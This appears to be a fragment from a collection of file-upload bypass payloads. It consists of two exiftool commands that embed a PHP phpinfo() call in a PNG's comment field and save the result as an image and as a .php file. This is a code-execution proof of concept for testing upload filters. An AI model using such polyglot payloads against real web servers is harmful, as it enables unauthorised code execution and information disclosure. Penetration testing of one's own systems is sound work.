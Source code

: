 ## h_phpinfo.php (phpinfo())
exiftool -comment="<?php phpinfo() ?>" h_phpinfo.png
exiftool -comment="<?php phpinfo() ?>" h_phpinfo.png -o h_phpinfo.php